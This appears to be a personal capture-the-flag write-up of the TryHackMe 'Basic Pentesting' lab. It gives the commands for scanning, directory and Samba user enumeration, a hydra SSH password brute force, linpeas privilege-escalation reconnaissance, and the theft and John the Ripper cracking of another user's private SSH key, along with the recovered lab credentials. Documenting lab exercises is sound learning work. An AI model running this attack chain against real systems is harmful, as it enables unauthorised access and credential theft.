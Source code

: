 # Basic Pentesting Machine from Try Hack Me

## Nmap
`nmap -sVC <targetipaddress>`

Ports:
22
80
And a couple of samba ports that are open. (139, 445)

## HTTP
First I take a look at the http port and head over to the webpage.

Did not get much from the inspect tool.
Checked for /robots.txt and /admin. 

## gobuster
`gobuster -u http://<targetipaddress> -w /usr/share/SecLists/Discovery/Web-Content/common.txt`

Results:
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/development          (Status: 301) [Size: 320] [--> http://10.10.235.114/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 301]

From here I checked out the /development directory 
checked both **dev.txt** and **j.txt**; j.txt we can see J talking to K and we notice that Kk has a weak password that we can use to find and take advantage of. 

Users:
J adn K are the two users we know exist in the machine thus far. Can use samaba to confirm this and get the usernames.

## samba
`/usr/share/enum4linux/enum4linux.pl -a 10.10.235.114 `

Results:
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

## hydra 
`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.235.114`

Results:
[22][ssh] host: 10.10.235.114   login: jan   password: armando

## SSH

While in SSH most of the stuff I did not have permssion to read and nothing of use. 
I did find another directory in /home, **kay**. 
Had a pass.bk files that I did not have permission to **cat**. Other files were the same.

To escalte this procces I will use linpeas.

### LinPEAS (Linux Privilege Escalation Awesome Script)
First I coped the linpeas.sh to **jan** machine. 
`scp ./linpeas.sh jan@<targetipaddress>:/dev/shm`

From Jan's computer:
`cd /dev/shm`
`./linpeas.sh`

Results:
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa

under **kay** /.ssh directory they have an SSH key that we can use to login using that user. 

`cd /home/kay/.ssh/`
`cat id_rsa`

Copy and paste that into my macine using vim and saving it(`chmod 600 kay_id_rsa`). 

### SSH kay's machine

Prompted to enter passphrase for **kay's** key. 

To figure out this passphrase I used JohnTheRipper. 

John the Ripper can crack an SSH key passphrase by first converting the private key into a 
format John understands using ssh2john and then running a brute-force or wordlist attack.

Save the hash key to a format John undesrtands:
`/usr/share/john/ssh2john.py kay_id_rsa > key.txt`

Run `john --wordlist=/usr/share/wordlists/rockyou.txt key.txt` 

Results:
beeswax          (kay_id_rsa)

`ssh -i kay_id_rsa kay@<targetipaddress>`

Entered passphrase:
`ls`
`cat pass.bak`


